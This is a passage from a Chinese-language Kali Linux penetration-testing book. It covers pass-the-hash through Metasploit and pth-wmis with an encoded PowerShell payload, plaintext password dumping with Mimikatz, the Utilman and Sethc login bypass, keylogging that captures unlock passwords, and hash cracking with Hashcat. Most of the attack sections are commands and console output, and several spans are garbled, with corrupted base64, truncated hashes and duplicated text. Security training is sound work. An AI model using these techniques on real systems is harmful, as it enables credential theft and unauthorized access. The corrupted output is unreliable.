Ralf:1004aa3a3b3b55104e4ea3d4b53b51404e2e520e18228ada8ea4060017234f43b2::
```

如你所见，这里是所有用户的哈希。让我们看看是否能以`Administrator`用户身份连接到Windows 7系统。

我们将使用SMB Pexec模块来实现。

### 1. 将当前会话后台化并输入`use exploit/windows/smb/pexec`：

```
[+] Backgrounding session 2...
msf exploit(bypassuac) > use exploit/windows/smb/pexec
```

如果你想查看该漏洞或其他漏洞的选项，请记住`show options`。

### 2. 输入`msf exploit(pexec) > show options`：

```
msf exploit(pexec) > show options
Module options (exploit/windows/smb/pexec):
| Name | Current Setting | Required | Description |
| :--- | :--- | :--- | :--- |
| RHOST | | yes | The target address |
| PORT | 445 | | The SMB service |
| SHARE | ADMIN$ | yes | normal read/write |
| SMBDomain | WORKGROUP | | The Windows domain |
| SMBPass | no | | The password for |
| SMBUser | no | | The username to auth |
```

好了，现在只需要设置远程主机IP（`RHOST`）和`SMBUser`。

### 3. 输入`set RHOST <TargetIP>`并回车。

### 4. 然后输入`set SMBUser Alice`：

```
msf exploit(pexec) > set RHOST 192.168.198.132
RHOST => 192.168.198.132
msf exploit(pexec) > set SMBUser Alice
SMBUser => Alice
msf exploit(pexec) >
```

我们需要设置目标系统IP地址并选择了用户`Alice`。这就是魔法发生的地方。我们不需要未知的密码，可以直接使用哈希值！

### 5. 输入`set SMBPass`并粘贴哈希，然后回车：

```
msf exploit(pexec) > set SMBUser Alice
SMBUser => Alice
msf exploit(pexec) > set SMBPass aad3b43b5104eeaadb3b5104ee2e4db83aa056299ae3297b2
```

如所示粘贴哈希。在这种情况下，去掉用户账户`1001`的部分，并去掉结尾的冒号。结果如何？在UAC设置为关闭的Windows 7系统上，什么都没有发生！我们收到了拒绝访问的消息，且没有连接：

```
msf exploit(pexec) > exploit
[*] Started handler on 192.168.198.134:4444
[*] Connecting to the server...
[*] Authenticating to 192.168.198.134:445|WORKGROUP as user 'Alice'...
[*] Uploading payload...
[*] [+] Error (no-access): Rex::Proto::SMB::Error The server responded with error: STATUS_ACCESS_DENIED (Command=1 Count=0)
msf exploit(pexec) >
```

但在完全关闭UAC的系统上，情况完全不同：

```
msf exploit(pexec) > exploit
[*] Started handler on 192.168.198.134:4444
[*] Connecting to the server...
[*] Authenticating to 192.168.198.134:445|WORKGROUP as user 'Alice'...
[*] Uploading payload...
[*] [+] Created
[*] Binding to Hykycv.exe...
[*] Binding to 367abb81-9944-35f1-ad32-987fd3081003:2.0|cacnm_np:192.168.198.132|svctl)
[*] Obtaining a service manager...
[*] Creating a new service (1ZZNkLL - "MalXmROYVMX").
[*] Starting the service...
[*] Removing the service...
[*] Creating service handle...
[*] Waiting for service control handler to status to become running, you are able
[*] Starting the service...
[*] Removing the service...
[*] Creating service handle...
[*] Sending stage (75128 bytes) to 192.168.198.132
[*] Meterpreter session 2 opened (192.168.198.134:4444 -> 192.168.198.134:49488)
at 2013-09-25 12:05:28 -0400
meterpreter >
```

这就是安全测试时的真实情况。看起来是一个入口可能不起作用。所以返回并尝试其他方法。在这种情况下，我们无法在启用UAC时获取shell，但在禁用UAC的系统上顺利获取。

## 哈希传递工具包

在Kali中，`哈希传递（PTH）工具包`是十个工具的集合，你用它们来：

# Kali Linux/密码攻击/哈希传递

或者在文件系统的`/usr/bin/`下：

```
root@kali:~# find -name "pth-*"
/usr/bin/pth-openchangeclient
/usr/bin/pth-sqsh
/usr/bin/pth-rpccclient
/usr/bin/pth-smbclient
/usr/bin/pth-curl
/usr/bin/pth-smbget
/usr/bin/pth-wmis
/usr/bin/pth-wmic
/usr/bin/pth-net
/usr/bin/pth-winexe
```

你可以使用这些命令做一些非常有趣的事情。我们不会涵盖这些命令，但许多命令对Windows用户来说看起来相似。

只需使用帮助开关（`help`），你就会获得命令选项和用法的帮助列表：

```
root@kali:~ smbget --help
Usage: smbget [OPTION...]
-a, --guest
-e, --encrypt
Encrypt SMB transport (UNIX extended servers only)
-r, --resume
Automatically resume aborted files
-U, --update
Download only when remote file is newer than local file or local file is missing
-R, --recursive
Recursively download files
-u, --username=STRING
Username to use
-p, --password=STRING
Password to use
-w, --workgroup=STRING
Workgroup to use (optional)
-n, --nonprompt
Don't ask anything (non-interactively)
-d, --debuglevel=INT
Debuglevel to use
-o, --output=STRING
Write downloaded data to specified file
```

```bash
## pth-wms -u "win-loanlotldq\alice" *="aad38b35b51404ee\naad38b35b51404ee,c264f8b4d5a56289925daea32987b20" //192.168.198.132
-c powershell.exe -nop -enc SBQFGIAAIAQAEQ4AEZQB3C0A
TwBlAAZQ09IAQHOIAABHOIAQADUAFFAQZBIAEMAMABPUAGUBAGQubGBCALGEAG8GAdWu
uAgYABGABABHOIAQ8AHIAQuAgCAKAAAnAgAgAB0AHHA66CVBYAGQpALQHGAlSH
KAlXADQYAEGFAAMABJACACKQA7AA7ASQSBJHUYAHwbbyAGQUBTAQGSBAGASWAY
wbZAQ0ACQAAQACACEHAHQAFEAAQABAHQubby3BAMMWLBTAHWAQACALQAMMGG
AB2wHIAIACHYIAHALIAYAgUAgDHIAHIAQAHQAA4Q5ALAGQUBYAGNA4CA4AMQ5ADGL
cagXADQANONAAAGCOATWAGBBCAGMOBCAANAAAGOMDMIAIAAAEAYwbbyAGMAZQA=-
HASH PASH: Substituting user supplied NTLM HASH...
- Substituting user supplied NTLM HASH...
- c powershell.exe -nop -enc
swms/wmic /node=:172) main() { 1 c powershell.exe
SBQFGIAAIAQAEQ4AEZQB3C0ATwBlAAZQ09IAQHOIAABHOIAQADUFAQZBIAEMAMABPUAGUBAGQubGBCALGEAG8GAdWuAgYABGABHOIAQ8AHIAQuAgCAKAAAnAgAgAB0AHHA66CVBYAGQpALQHGAlSHKAlXADQYAEGFAAMABJACACKQA7AA7ASQSBJHUYAHwbbyAGQUBTAQGSBAGASWAYwbZAQ0ACQACICEHAHQAFEAAQABAHQubby3BAMMWLBTAHWAQACALQAMMGGAB2wHIAIACHYIAHALIAYAgUAgDHIAHIAQAHQAA4Q5ALAGQUBYAGNA4CA4AMQ5ADGLcagXADQANONAAAGCOATWAGBBCQ5ALAGQUBYAGNA4CA4AMQ5ADGLcagXADQANONAAAGCOATWAGBBCAGMOBCAANAAAGOMDMIAIAAAEAYwbbyAGMAZQA=-
STATUS: NT_STATUS_OK - Success
```

而且它运行良好，你可以使用提供的用户 (`Alice`) 和密码哈希值创建了远程会话：

```text
msf exploit(handler) > sessions
Active sessions
| Id | Type | Information | Connection |
| :--- | :--- | :--- | :--- |
| 1 | meterpreter | x86/win32 | WIN-LOANLOTLDQ\Alice @ WIN-LOANLOTLDQ | 192.168.198.144:443 -> 192.168.198.132:49175 (192.168.198.132) |
```

# 防御哈希传递攻击 (Pass the Hash Attacks)

那么可以做些什么来防止这类攻击呢？

在测试期间，我发现在使用Windows 7机器上使用Windows自带的防火墙是一个障碍。

我还发现，如果将用户账户控制 (`UAC`) 设置为`从不通知`以外的任何级别，许多哈希传递攻击在Windows 7上将完全无效：

- 始终通知

- 从不通知

在Windows Vista中被很多人抱怨（并被禁用！）的实用程序实际上提高了你系统的安全性。

在Windows 7系统上，请确保UAC已启用并设置为`从不通知`以外的其他选项。

此外，完全关闭LM和NTLM并启用NTLM2阻止了这种攻击。这是通过系统安全策略中将身份级别设置为`仅发送NTLM2响应\拒绝LM & NTLM`来实现的。

接下来，人们可能会考虑仅使用Kerberos身份验证。从我所观察到的，似乎没有一种万无一的方法可以在范围内强制使用Kerberos。此外，网络上的许多设备为了向后兼容仍然会创建并使用LM/NTLM哈希，因此将它们从你的网络中完全移除仍然是一项任务。

# 第 18 章 – Mimikatz 明文密码

## 引言

在本节中，我们将研究如何恢复明文形式的远程密码。

你没读错，是*明文*！

我曾多次与`Mimikatz`的幕后主手Benjamin Delpy（又Gentil Kiwi）交流，他似乎是安全社区中最是最友善的人之一。

我不会假装我完全理解他是如何做到的，但这位大师级程序员发现Windows进程的几个位置以明文形式（！）存储了Windows密码。

并且他凭借高超的编程技巧找出了它们。`Mimikatz`已经作为一个独立程序可用了一段时间，并被添加到Metasploit Framework中作为一个加载的Meterpreter模块，使得恢复密码变得异常简单。

而且我提到密码是明文？

## 加载模块

我们将从Meterpreter中的一个活动Windows 7级shell开始。

>（参见绕过UAC章节查看如何从管理员权限变为系统权限）。

```text
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

我们需要加载`mimikatz`模块，有32位和64位版本，本节我们将使用32位的。

```text
meterpreter > load mimikatz
load mimikatz.x64
meterpreter >
```

- 1. 在Meterpreter提示符输入`load mimikatz`。
- 2. 输入`help`查看命令列表。

| Mimikatz 命令 | 说明 |
| :--- | :--- |
| kerberos | 尝试检索 kerberos |
| livesep | 尝试检索 livesep |
| mimikatz_command | 执行自定义命令 |
| msv | 尝试检索 msv (哈希) |
| ssp | 尝试检索 ssp |
| tspkg | 尝试检索 tspkg |
| wdigest | 尝试检索 wdigest |

帮助信息显而易见；基本上输入你想恢复的对应命令。所以对于Kerberos，在提示符输入`kerberos`。或者输入`msv`来恢复哈希。使用这些命令可以从多个源恢复密码 - Windows密码、LM密码等。你还可以使用`mimikatz-command`执行更多功能。但现在我们对密码感兴趣。

## 恢复哈希和明文密码

- 1. 输入`msv`：

```text
meterpreter > msv
[*] Running msv as SYSTEM
[*] Retrieving credentials
| AuthID | Package | Domain | User | Password |
| :--- | :--- | :--- | :--- | :--- |
| 0103522 | NTLM | WIN-LOANLOTLDQ | Real | 00000000000000 |
```


| 00000000000000 | NTLM | | | 25e0e1828adea4f012734af3b2 |

| 0103522 | NTLM | WIN-LOANLOTLDQ | Raf | 25e0e1828adea4f012734af3b2 |

| 0103522 | NTLM | WIN-LOANLOTLDQ | Raf | 25e0e1828adea4f012734af3b2 |

| 0103522 | NTLM | WIN-LOANLOTLDQ | Raf | 3b453b14eeaad |

| 0066936 | NTLM | WIN-LOANLOTLDQ | Fred | 31c0fde6a931f7c59c7e08c9 |

| 3b453b14eeaad | NTLM | | | 3b453b14eeaad |

| 0996 | Negotiate | NT AUTHORITY | LOCAL SERVICE | |

| 0996 | Negotiate | WORKGROUP | | |

| 042061 | NTLM | WIN-LOANLOTLDQ | WORKGROUP | |

| 0999 | NTLM | WORKGROUP | WIN-LOANLOTLDQ | |

搞定——一份恢复的哈希列表。好了，我们可以获取哈希并尝试破解它，但如果我们使用在线表而没有时间怎么办？如果能直接获取明文就太好了。好了，如果用户登录了系统，你可以做到。

### 2. 输入 `Kerberos`：

img/3ef0f51cacb0127e8ad0ea42f248a9fe_153_0.png

```text
meterpreter > SYSTEM
kerberos credentials
[*] Running as kerberos credentials
[*] Retrieving kerberos credentials
[*] kerberos credentials
| AuthID | Package | Domain | User | Password |
| :--- | :--- | :--- | :--- | :--- |
| 0999 | NTLM | WORKGROUP | | |
| 042661 | NTLM | WIN-LOANLOTLDQ | | |
| 0669397 | NTLM | WIN-LOANLOTLDQ | Fred | |
| 0669366 | NTLM | WIN-LOANLOTLDQ | Fred | |
| 0999 | Negotiate | WORKGROUP | | |
| 0999 | Negotiate | NT AUTHORITY | LOCAL SERVICE | | |
| 0130522 | NTLM | WIN-LOANLOTLDQ | Jeff | |
| 0130522 | NTLM | WIN-LOANLOTLDQ | Raf | |
```

如果你查看我们的用户 Ralf，你会看到他的密码是明文！在这个系统上，我们通过 `wdigest` 命令得到几乎相同的结果：

```text
meterpreter > wdigest
[*] Running as SYSTEM
[*] Retrieving wdigest credentials
[*] wdigest credentials
| AuthID | Package | Domain | User | Password |
| :--- | :--- | :--- | :--- | :--- |
| 0999 | NTLM | WORKGROUP | | |
| 042661 | NTLM | WIN-LOANLOTLDQ | | |
| 0669397 | NTLM | WIN-LOANLOTLDQ | Fred | |
| 0669366 | NTLM | WIN-LOANLOTLDQ | Fred | |
| 0999 | Negotiate | WORKGROUP | | |
| 0999 | Negotiate | NT AUTHORITY | LOCAL SERVICE | | |
| 0130522 | NTLM | WIN-LOANLOTLDQ | Jeff | |
| 0130522 | NTLM | WIN-LOANLOTLDQ | Raf | |
```

虽然我在示例中没有使用 Windows 8，但你还有 `livesp` 命令。正如 Benjamin 天向我解释的那样，当 Win8 系统将 MS Live 邮件账户关联到登录凭据时，你可以一个命令获取其登录密码和电子邮件密码。虽然这超出了本书的范围，但你还可以使用 `mimikatz-command` 执行更高级的功能，包括恢复证书。

# 总结

在本节中，我们展示了如何从远程系统恢复密码。我们使用 Metasploit Framework 的 Meterpreter 和 Mimikatz 命令来实现这一点。

正如你看到的，仅仅依赖复杂的密码作为安全措施并不总是可靠的。如果攻击者能够访问你的系统，他们可能会以明文形式获取你的密码。

## 第 19 章 – Mimikatz 与 Ultiman

### 引言

安全领域有一句格言：如果你拥有物理访问权限，你就拥有完全访问权限。在很多情况下，这确实是真的。

我在纽约州北部和宾夕法尼亚州北部进行过 20 年的现场服务器和工作站支持，见证过许多人在物理安全方面做过一些非常、非常愚蠢的事情。

我曾进出过数百个设施，并允许在完全不受监督的情况下自由走动。

在某一个数据中心，我去维修服务器；结果找不到任何管理员，网络经理也不在现场。他们没有一个人接听传呼机或手机电话。只有前台接待是合逻辑的；她带我进入了机房，然后把我留在那儿，在完全不受监督的情况下待了大约一小时，直到有人出现……

有一次，我看到一家大公司用线缆盒顶住他们安全服务器房的门，并在他们吃午饭时让处于无人看守。

我有一位退休的特种兵朋友，他曾告诉过我，如果你系着领带并拿着写字板，没有人会阻止你。他是对的。在我 20 年涉及银行、政府设施、研究中心和大型企业的现场服务器及 IT 支持经历中，在建筑内部，我只被拦截并要求出示身份证的只有三次！

物理安全非常重要。在本安全章节中，我们将查看一种使用 Kali Live CD 进行的可能的 Windows 物理攻击，即“Ultiman 登录绕过”以及非常强大的密码破解程序“Mimikatz”。

### Ultiman 登录绕过

好了，这种技术非常老旧了，从技术上讲它并不是一种攻击。它源于一个旧的 Microsoft Technet Active Directory 支持论坛的一条信息。这种被称为“UltimanBypass”的技术，是在忘记密码时时登录 Windows 服务器的推荐技术之一。

Ultiman 绕过通过操纵登录界面处可用的一个实用的 Windows 函数来实现。它允许系统级命令会话在不使用凭据的情况下打开。

我有一些支持大型网络的朋友告诉我，他们仍然为了合法目的而使用这种技术。例如，当旧的企业单机系统需要备份和重新利用，但且没有人能记得系统密码时，他们就会使用这种技术。

执行此步骤你需要一个（Kali）Linux 启动盘。我们将从磁盘启动并更改 Windows “Ultiman”程序，这样当按下“Windows” + “U”键时，将打开命令提示符而不是普通的实用菜单。

> *** 警告！！！
> 警告 *** 如果你在在此过程中执行了任何错误操作，可能会导致你的 Windows 系统无法启动。你已收到警告。

- 1. 在 Windows 系统上，从 Kali Linux Live CD 启动：

打开此项，你的 Windows 文件系统就会显示出来：

（注意：如果硬盘没有加密，到此时你将拥有对 Windows 文件系统的完全访问权限）

- 3. 现在导航到“Windows\System32”目录：

我们要做的是将原始的 `Utilman.exe` 重命名为一个副本，创建一个 `cmd.exe` 的副本并将其重命名为 `Utilman.exe`。

- 4. 找到“utilman.exe”文件并将其重命名为“utilman.old”：

- 5. 右点击“cmd.exe”文件并点击“复制”，现在粘贴回同一个目录，你现在应该同时拥有“cmd.exe”和一个名为“cmd (copy).exe”的文件，如下所示：

- 6. 现在将“cmd (copy).exe”文件重命名为“Utilman.exe”。

你现在应该有两个 utilman 文件，一个 utilman.old（原始文件）和一个 utilman.exe 文件（cmd.exe 的副本）：

就此了！我们保留了 `Utiliman.old` 这种的文件，以防我们想要切换回它并恢复正常的 Utilman 功能。

- 7. 现在只需关闭 Kali 并让 Windows 系统正常启动。

- 8. 在登录界面上，同时按下“Windows”和“u”键。一个系统级命令提示符就弹出了！

如果你输入“whoami”，你会发现你实际上是用户“nt authority\system”，这是可用的最高级别访问。注意登录图标仍然在背景中。

从这里开始你可以做任何你想做的事，你拥有完全访问权限。

这种技术适用于从 Windows 9x 及以上的所有版本的 Microsoft Windows 操作系统。它也适用于他们的服务器产品。这里是 Server 2012 R2 Datacenter 的登录界面。注意“按 Control-Alt-Delete 登录”的消息，并注意以系统级权限打开的命令提示符：

以同样的方法修改“Sethc.exe”命令允许让你绕过 Windows 登录界面。“sethc”文件用于 Windows 粘滞键功能。在正常运行期间，如果你连续点击 5 次 Shift键，粘滞键对话框就会弹出。

使用这种方法，只需在登录界面点击五次 Shift键，系统级命令提示符就会打开。

> *** 给管理员的备注** – 大多数情况下物理访问等同于完全访问。加密你的驱动器并保护你的系统！

### 从锁定的工作站恢复密码

继续这一概念，对于渗透测试员（如果你对系统有物理访问权限），如何能够从……获取密码

正如你所见，它起了：

```
8adaea6724af3b2
kerberos : #LongPasswordsAreTheWayGo!
ssp : 
widget : #LongPasswordsAreTheWayGo!
tspkg : #LongPasswordsAreTheWayGo!
Authentication Id : 0:940829
package d'authentification : NTLM
Utilisateur principal : George
domaine d'authentification : WIN-LOANLOTLDQU
msv0_0 : 1l 0000000000000000000000000000
8609c204cbb69718ad6e7
kerberos : $EuCuR@dCCountT1
ssp : 
widget : $EuCuR@dCCountT1
tspkg : $EuCuR@dCCountT1
Authentication Id : 0:940807
package d'authentification : NTLM
Utilisateur principal : George
domaine d'authentification : WIN-LOANLOTLDQU
msv0_0 : 1l 00000000000000000000000
8609c204cbb69718ad6e7
kerberos : $EuCuR@dCCountT1
ssp : 
widget : $EuCuR@dCCountT1
tspkg : $EuCuR@dCCountT1
Authentication Id : 0:711556
package d'authentification : NTLM
Utilisateur principal : Bob
domaine d'authentification : WIN-LOANLOTLDQU
msv0_0 : 1l 19903e9a9fd0719b56f28ce75
a72150d115263f589db9
kerberos : MyNameIsBob
ssp : 
widget : MyNameIsBob
tspkg : MyNameIsBob
```

几用户已经登录了我们的测试电脑，我们可以看到他们所有的用户名、密码哈希值以及明文实际密码！

正如之前提到的，你需要对机器有物理访问权限，特别是设置初始的 Utilman 登录绕过（Utilman Login Bypass）。你还需要运行 Mimikatz，为了方便，我刚刚下载并把它放在 U 盘上。

而且自系统启动以来，必须有人登录过系统。如果还没有人登录过系统，内存中就没有供 Mimikatz 提取的密码。

### 结论

在本节中，我们学习了如何从 Kali Live CD 启动并查看 Windows 文件系统的内容。如果我们的驱动器没有加密，我们可以很容易从中提取用户文档和文件。

我们还学习了如何设置 Utilman 绕过以无需密码即可登录 Windows。最后，我们学习了如何使用 Mimikatz 获取用户的明文密码。

确保重要机器的物理访问安全。如果需要，请关闭或禁用 DVD/CD ROM 驱动器和 USB 端口。有些组织甚至到了用胶水填充 USB 端口的程度！

# 第 20 章 - 键盘记录与锁定键盘记录器

### 引言

有时，渗透测试人员可能拥有用户机器的远程访问权限，但他可能没有用户的密码。也许用户有一个非常长且复杂的密码，破解它需要太长时间。他能做什么？

Metasploit Framework 有一个非常棒的工具可以捕捉目标机器上的按键输入。我们将从一个已经运行过漏洞并成功通过 Metasploit 创建远程会话的系统开始。我们通过 `session` 命令连接到会话，现在正处于 Meterpreter 提示符下。

### 使用 Meterpreter 进行键盘记录

我们将从一个已经运行过漏洞并成功通过 Metasploit 创建远程会话的系统开始。我们通过“session -i <ID>”连接到会话，现在正处于 Meterpreter 提示符下。

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

如果在 Meterpreter 提示符下输入“help”，我们将得到一个可以运行的命令列表。在本节中，我们只关注“keyscan”命令：

```
keyscan_dump 倾储击键缓冲区
keyscan_start 开始记录按键
keyscan_stop 停止记录按键
```

所以，让我们看看启动远程键盘记录器时是什么样的，然后我们将查看捕获的按键。

- 1. 简单地输入“keyscan_start”来开始远程记录。

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter >
```

- 2. 现在我们只需要等待受害者在键盘上输入一些内容。作为示例，请打开你的 Windows 7 浏览器并在 Google 上进行搜索。

- 3. 现在回到 Kali 系统，要查看输入了什么，输入“keyscan_dump”：

```
keyscan_dump
Dumping captured keystrokes...
```

```
keyscan_dump
Dumping captured keystrokes...
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter >
```

（此处省略重复的命令块，实际输出中将保持原文格式并翻译逻辑）

```
msf background session 3...
msf exploit (byasuasac) > use post/windows/capture/lockout_keylogger
msf post (lockout_keylogger) > set session 3
msf post (lockout_keylogger) > exploit
[*] Found WINLOGON at PID:3824
[*] Migrating from PID:3484
[*] Migrated to WINLOGON PID: 3824 successfully
[*] Keylogging for WIN-LOANLOTDQU\Ralf @ WIN-LOANLOTDQU to.
```

Lockout Keylogger 会自动找到 Winlogin 进程并迁移到。程序随后开始监控远程系统的空闲时间。

当空闲时间达到 300 秒左右：263 秒时 Lockout Keylogger 尝试远程锁定用户的桌面。有时它会失败并尝试重新锁定：

```
[*] Current idle time: 263 seconds
[*] Current idle time: 294 seconds
[*] Locking the workstation failed, trying again...
[*] Locked this time, time to start keylogin...
[*] Starting the keystroke sniffer...
[*] Keystrokes being saved in /root/.msf4/logs/scripts/smartlocker/192.168.1.10_20231027_263.txt
[*] Recording
[*] System has currently been idle for 328 seconds and the screensaver is OFF
```


[*] System has currently been idle for 361 seconds and the screensaver is OFF

```
好了，lockout 已成功锁定工作站并开始寻找按键。
如果我们的用户返回并输入密码解锁系统，我们就能获取它：
```

[*] Password?: `#LongPasswordsAreTheWayTooLong`

[*] They logged back in, the last password was probably right.

[*] Stopping the keystroke sniffer...

[*] Post module execution completed

`msf post (lockout keylogger) > _`

```
拿到了！
嗯，几乎是……
似乎最后两个字符被截断了。不确定是密码长度限制还是其他原因。但对于一个几年前写的程序来说，看起来仍然运行良好。
```

## 结论

在这一节中，我们演示了如何在 Kali 中使用 Metasploit 从远程系统获取按键。我们还学习了登录密码通常不会被记录。`Lockout Keylogger` 自动化了从头到尾整个过程。用户离开电脑，等待特定的空闲时间后将电脑进入锁定模式。当他重新登录时，密码会以明文显示。

# 第 21 章 - Hashcat

## 引言

到目前为止，我们涵盖了几种攻击密码的技术。我们看到有时只需进行彩虹表查询，但如果其他方法都失败了，你就必须破解哈希。在这一节中，我们将介绍我们最喜欢的工具之一：`Hashcat`。我们依赖密码来保护家庭系统和在线账户。随着 GPU 变得越来越快，密码变得越来越容易。

### 资源

- Hashcat Wiki - http://hashcat.net/wiki/
- 安装驱动程序 - http://docs.kali.org/docs/use/nvidia-drivers
- 字典列表 - 查看 `/usr/share/wordlists`

## Hashcat

`Hashcat` 是一款全能密码破解器，可以在 GPU 或 CPU 上运行。GPU 版本（取决于显卡，可能是 `CUDAHashcat-plus`）被用作世界上最快的 `md5crypt`、`phpass`、`mcash2` 和 `WPA/WPA2` 破解器。`Hashcat` 是一个多线程破解器，因此如果你的 CPU 可以运行多个线程，它就会利用它们。但当使用 GPU（即显卡上的处理器）的动力时，真正的速度才会显现。如果你的 GPU 可以运行数百个线程，所有这些都将用于破解密码。你甚至可以利用多块显卡的力量创建一个怪物级的破解站。

## 破解 NTLM 密码

没有什么比实操练习更好的，所以让我们破解一些哈希吧。

这里有几个：

```
a4f9c4c06510bdac6824ee7c30fd852

2e4db83aa056289935daea328977b2b0

d149886c622b1b654ba39932465528

4a8441c82b55ee3ef646c83f1aa7b

259745cb123a52aa2693aaacca2db552

d5c21555161d722830b290afd3cd539

5835048ce94ad0564c29a92403510ef

b963c570101218ed2cc3c229b5e4d0f

f773c5db7d2ebefa4b0daec72e8c50a4

5d05c3883a4ecf184f2b8f1c6d8995a4

6fad63faebf742110100f2ba62a1b3e

43fcc6faeb63d14b26427c6d0041ef

27c05ea55fedcba01c22681dda3

9439b142f2524a7355f6c52b8

270553
```

只需将这些哈希存入一个文件。只需将这些存入 `/usr/share/wordlists` 中的一个文件。这些哈希是压缩的，如果你还没有这样做，你需要对它们进行解压。

1. 在桌面上打开终端并输入 `hashcat`。
2. 输入 `hashcat` 查看状态。
3. 打开 `cracked.txt` 查看哈希。

```
b963c570101218ed2cc3c229b5e4d0f

259745cb123a52aa2693aaacca2db552

5835048ce94ad0564c29a92403510ef

5d05c3883a4ecf184f2b8f1c6d8995a4

f773c5db7d2ebefa4b0daec72e8c50a4

6fad63faebf742110100f2ba62a1b3e

43fcc6faeb63d14b26427c6d0041ef

27c05ea55fedcba01c22681dda3

9439b142f2524a7355f6c52b8

a4f9c4c06510bdac6824ee7c30fd852

2e4db83aa056289935daea328977b2b0

d149886c622b1b654ba39932465528

4a8441c82b55ee3ef646c83f1aa7b

d5c21555161d722830b290afd3cd539
```

搞定了，大约一秒钟内破解了 13 个密码。仔细看看这些密码，巧合的是其中许多是 2012 年破解率最高的密码。使用其中任何一个在密码破解器面前都只能坚持几秒。

## 破解更难的密码

让我们看看之前在密码章节中使用 `Hashcat` 恢复的某些密码。我们将使用之前在密码章节中使用 `hashdump` 命令恢复的格式。

```
31d6cfe0d16ae931b7359d7e0c089c0

2e4dbf8f3a0562899933ea328977b20

d660a78e9da72150d1125263f5b89de

317a9a1018069c20b4ccb697183ad6e7

2e50182228ad84a600612234af43d3
```

再次，将这些存入一个文件，这次命名为 `hash.txt`，并放在桌面目录中。然后使用字典文件尝试破解它们。

打开终端，导航到桌面目录并输入，“`hashcat -m 1000 hash.txt -o hardcracked.txt`”。

```
hashcat -m 1000 hash.txt rocky.txt -o hardcracked.txt
```

命令行行中的所有内容与之前相同，只是我们将名称更改为新的 `hash.txt`，并将输出文件名更改为 `hardcracked.txt`。

- 2. 几秒钟后，我们在屏幕上看到了下面：

```
Input.Mode:Dict (rocky.txt)

Index....:5/5 (segment), 553095 (words), 5720149 (bytes)

Recovered: 2/5 hashes, 0/1 slots

Speed/sec: 6.86M plains, 6.86M words

Progress: 553095/553095 (100.00%)

Running... ---

Estimated: ---

Started: Tue Oct 1 14:53:03 2013

Stopped: Tue Oct 1 14:53:07 2013

root@kali~/Desktop#
```

好的，这次它运行了 4 秒钟，但如果你注意的话，它只恢复了 5 个哈希中的 2 个。

- 3. 如果我们对 `hardcracked.txt` 运行 `cat` 命令，它证实了只有两个实际上被破解了：

```
root@kali~/Desktop# cat hardcracked.txt

3d6cfe0d16ae931b7c59d7e0c089c0:

2e4db8f3a0526289y35dea32897b20:P$$word
```

五个中只有两个，并没有什么帮助。让我们尝试更大的字典。

## 使用更大的字典文件

如果你没有成功，请尝试更大的字典！

`Crackstation` (https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm) 有一个非常好用的 15GB 字典。

我下载了 4GB 的压缩文件，将其解压并放在包含我们哈希文件的目录中。然后我们使用 `Crackstation` 字典运行了 `hashcat`：

```
root@kali:~/Crack# hashcat -m 1000 hash.txt crackstation.txt -o cracked.txt --remove
```

这条命令行本身没什么特别的，但我添加了“remove”开关。对于如此小的哈希列表这是没有必要的，但在大型列表中，一旦某个哈希被破解，它就会从列表中移除，以提高破解速度。

结果如下：

```
Input: Dict (crackstation.txt)

Index: 460/468 (segment), 453373 (words), 23198376 (bytes)

Recovered: 3/5 hashes, 0/1 slices

Speed/sec.: 6.94M plains, 6.94M words

Progress: 453373/453373 (100.0%)

Running:-------

Estimated: --:--:--

Started: Tue Oct 1 20:11:32 2013

Stopped: Tue Oct 1 20:22:39 2013

root@kali:~/Crack#
```

这多花了一段时间，大约 11 分钟。看起来它又额外恢复了一个哈希。

看看它是什么：

```
root@kali:~/Crack# cat cracked.txt

3d6cfe0d1ea6a931b7c59d7e2c009c0:

d6e07a7eb9d472150d12563f5b89ddeMyNameIsBob

2a4dbf33aa05629993daea328977b20:P@@$$word
```

好的，它获取了空密码、“`P@@$$word`”一个以及一个新的密码——“`MyNameIsBob`”。

剩下的两个密码相当难以破解。其中一个长度为 15 个字符，并使用了特殊字符、大小写字母和一个数字（`$CuR@d@CCount1`），最后一个非常长，几乎有 30 个字符。

## 更高级的破解方法

仅仅向哈希列表投掷字典文件可以恢复一些简单的密码，但要获取更难的密码，你需要使用更高级的技术。我不会详细介绍它们，但 `Hashcat` 允许你使用多种攻击类型：

- 多个字典列表
- 规则集
- 以及密码掩码（Password Masks）

**攻击类型：** “`-a`”选项允许你从以下选项中指定你想要使用的攻击类型：

0 = 直接（Straight）
1 = 组合（Combination）
2 = 大小写切换（Toggle-Case）
3 = 暴力破解（Brute-force）
4 = 排列（Permutation）
5 = 表格查询（Table-Lookup）

大部分都是不言自明的。组合攻击允许你组合字典中的单词来动态创建新单词。

规则攻击非常有用。`Hashcat` 有一组内置规则，你可以使用它们来破解密码。例如，有一个“leet”规则，它可以自动获取字典中的每个单词并尝试不同的黑语（leet-speak）版本。你甚至可以使用编程语言来创建自己的规则集。

通过使用“r”开关并包含所需的规则集名称来启用规则攻击。`Best64.rule`、`passwordpro.rule`、`d3ad0ne.rule` 和 `leetspeak.rule` 是一些流行的规则。

例如所示：

```
root@kali:~/crack# hashcat -m 1000 hash rocky.txt -r leetspeak.rule -o cracked.txt
```

掩码攻击允许你定义用于攻击的单词布局。例如，如果你知道密码策略要求两个数字、六个大写字母和两个特殊字符，你可以为 `Hashcat` 创建一个掩码。

在这个示例中，它看起来像是 `d?d?u?u?u?u?u?s`：

```
root@kali:~/crack# hashcat -m 1000 -a 3 hash.txt ?d?d?u?u?u?u?u?s -o cracked.txt
```

尝试不同的选项直到熟悉它们是如何工作的。

某些攻击尤其是暴力破解攻击可能需要长时间。请使用暴力破解攻击。

本次练习的目的是展示如何使用 `Hashcat`。

## 结论

Kali 提供的字典列表是一个很好的起点。但随着学习的深入，你会发现自己需要创建自己的或使用更高级的技术。

Kali 提供的工具是一个很好的起点。但随着学习的深入，你会发现自己需要创建自己的或使用更高级的技术。

# CRUNCH(2012年7月)

名称
`crunch`

用法
`crunch <min-len> <max-len> [options]`

描述
`crunch` 可以根据你指定的标准创建字典词列表（wordlist）。`crunch` 的输出可以发送到屏幕、文件或另一个程序。

选项
`min-len`
你想要开始的最小字符串长度。即使参数不使用该值，此选项也是必须的。
`max-len`
你想要结束的最长字符串长度。即使参数不使用该值，此选项也是必须的。


